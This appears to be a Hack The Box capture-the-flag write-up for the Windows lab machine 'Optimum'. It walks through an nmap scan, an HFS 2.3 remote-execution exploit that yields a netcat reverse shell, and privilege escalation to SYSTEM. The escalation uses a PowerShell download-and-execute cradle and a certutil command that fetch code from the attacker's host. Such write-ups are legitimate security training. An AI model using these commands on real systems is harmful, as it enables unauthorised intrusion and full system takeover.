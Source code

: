 # Hackthebox - Optimum

- Windows

![Optimum](../.res/HTB-Optimum.png)

- [Box on HTB](https://app.hackthebox.com/machines/6)

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.8
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 19:50 EDT
Nmap scan report for 10.10.10.8
Host is up (0.022s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.56 seconds
```

## Port 80

- We have an HttpFile Server  
![httpFileServer](../.res/2022-09-10-19-57-47.png)  

- If we google it we find [this exploit](https://www.exploit-db.com/exploits/39161) right away
- We have to get nc.exe in our attacking machine. Kali has binaries hosted so we can just copy and paste it in our working dir like this `cp /usr/share/windows-resources/binaries/nc.exe .`
- We have to serve netcat using python http server `python3 -m http.server 80`
- Then we have to modify the script and add our ip address and our port (I left 443)
- We set a listener `rlwrap nc -lvp 443`
- We launch our exploit `python2 39161 10.10.10.8 80`
- And we get a shell  
![shell](../.res/2022-09-10-20-20-16.png)  
- We can grab the user flag  
![user flag](../.res/2022-09-10-20-21-25.png)  

## Privesc

- Win version  

![win version](../.res/2022-09-10-20-31-23.png)  

### Kernel exploits

- `echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3/Sherlock.ps1') | powershell -noprofile -`

![Local privesc](../.res/2022-09-10-21-53-34.png)  

- Let's find another exploit than the one mentioned in Sherlock (does not work) `searchsploit ms16-032`  

![searchsploit](../.res/2022-09-10-21-58-36.png)

- Tried a few exploits but none worked
- On google I found [this](https://www.exploit-db.com/exploits/41020)
- And in the comment they mention [this exe file](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)
- We download it in our kali
- Serve it with python
- `certutil.exe -urlcache -f http://10.10.14.3/41020.exe exploit.exe` get it in our target
- We launch it we get a system shell  

![system](../.res/2022-09-10-22-09-03.png)

- We can grab the root flag  

![root](../.res/2022-09-10-22-10-05.png)
